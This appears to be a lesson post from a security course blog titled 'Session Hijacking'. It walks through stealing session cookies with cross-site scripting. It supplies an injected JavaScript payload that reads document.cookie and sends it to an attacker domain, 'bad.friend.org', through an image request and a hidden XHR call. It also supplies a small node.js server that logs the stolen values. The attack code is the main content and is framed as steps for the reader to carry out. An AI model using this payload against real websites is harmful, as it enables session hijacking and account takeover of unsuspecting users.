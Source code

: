 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use ARP poison attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user, low-profile payload

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://bad.friend.org/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
